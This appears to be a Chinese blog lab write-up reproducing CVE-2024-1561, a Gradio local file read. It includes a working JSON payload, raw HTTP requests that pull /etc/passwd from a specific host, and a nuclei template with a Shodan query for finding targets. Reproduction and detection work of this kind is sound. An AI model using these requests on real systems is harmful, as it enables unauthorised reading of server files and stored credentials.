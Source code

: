 ```yaml
---
title: "CVE-2024-1561复现"
description: "CVE-2024-1561复现"
date: 2025-06-15
tags:
  - "CVE-2024-1561"
  - "Python"
  - "复现"
  - "安全分析"
authors:
  - "bx"
draft: false              # 设为 true 则为草稿
slug: "CVE-2024-1561"          # 随机URL字符串
---
```

<meta name="referrer" content="no-referrer">

# CVE-2024-1561复现
NVD 是这样描述的

> 在 gradio-app/gradio 中发现了一个问题，其中`/component_server`端点不当允许使用攻击者控制的参数调用`Component`类的任何方法。具体来说，通过利用`Block`类的`move_resource_to_block_cache()`方法，攻击者可以将文件系统上的任何文件复制到临时目录，并随后检索它。此漏洞允许未经授权的本地文件读取访问，尤其是在应用程序通过`launch(share=True)`暴露于互联网时，从而允许远程攻击者读取主机上的文件。此外，部署在`huggingface.co`上的 gradio 应用程序也受到影响，可能导致存储在环境变量中的敏感信息（如 API 密钥和凭证）的泄露。
>

参考文章

[CVE-2024-1561漏洞复现](https://mp.weixin.qq.com/s/avowMUeEppLI88gOfy_B2g)



这里采用 vulhub 的 docker 搭建一个环境

[vulhub/gradio/CVE-2024-1561/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/gradio/CVE-2024-1561/README.zh-cn.md)

进入页面发现

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1751646147946-f04fba59-52fc-447d-a5cf-b534e1f6ad1a.png)

> 这个项目之前在学习 LLM 是经常便捷构建界面使用的
>



访问`/config`

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1751647657747-d95e3b8d-fb26-42d9-a7cd-61815fd1234b.png)

```python
{"version":"4.12.0","mode":"interface","app_id":18156613839225795048,"dev_mode":false,"analytics_enabled":true,"components":[{"id":3,"type":"row","props":
```



攻击 payload

```python
{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}
```

---》

```python
POST /component_server HTTP/1.1
Host: 43.134.9.57:7860
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}

```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1751647987376-6ea0c773-5841-48f0-952f-79b93e759aee.png)

然后构造请求包

```python
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 43.134.9.57:7860
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate


```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1751648076524-d3a0d772-428a-46ba-a004-a4f947b71e97.png)

结果如上，`/etc/passwd`的内容展示出来了







## 利用 nuclie 扫描
使用 nuclie 扫描

对应的 nuclie 仓库 yaml 文件如下

```python
id: CVE-2024-1561

info:
  name: Gradio Applications - Local File Read
  author: Diablo
  severity: high
  description: |
    Local file read by calling arbitrary methods of Components class
  impact: |
    Successful exploitation of this vulnerability could allow an attacker to read files on the server
  remediation: |
    Update to Gradio 4.13.0
  reference:
    - https://huntr.com/bounties/4acf584e-2fe8-490e-878d-2d9bf2698338
    - https://github.com/DiabloHTB/CVE-2024-1561
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1561
    - https://github.com/gradio-app/gradio/commit/24a583688046867ca8b8b02959c441818bdb34a2
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    cvss-score: 7.5
    cve-id: CVE-2024-1561
    cwe-id: CWE-29
    epss-score: 0.00045
    epss-percentile: 0.14639
  metadata:
    verified: true
    max-request: 3
    shodan-query: html:"__gradio_mode__"
  tags: cve,cve2024,intrusive,unauth,gradio,lfi,lfr

flow: http(1) && http(2) && http(3)

http:
  - raw:
      - |
        GET /config HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: json
        name: first-component
        part: body
        group: 1
        json:
          - '.components[0].id'
        internal: true

  - raw:
      - |
        POST /component_server HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"component_id": "{{first-component}}","data": "/etc/passwd","fn_name": "move_resource_to_block_cache","session_hash": "aaaaaaaaaaa"}

    extractors:
      - type: regex
        name: tmpath
        regex:
          - \/[a-zA-Z0-9\/]+
        internal: true

  - raw:
      - |
        GET /file={{tmpath}} HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - regex('root:.*:0:0:', body)
          - 'contains(header, "text/plain")'
        condition: and
# digest: 490a004630440220321f22e77b20acc61afa7b5cbf1f465becdb09178d7c23342a1d1be0a11c843502205a9d96fc3f2429ce7f2566dce2a289b2ff6529266cee50a0d24bd60336562f19:922c64590222798bb761d5b6d8e72950
```

结果如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1751702810188-b23dfcf3-227c-4a24-a6e7-5b21dfce1698.png)

这里也是成功检测出来了


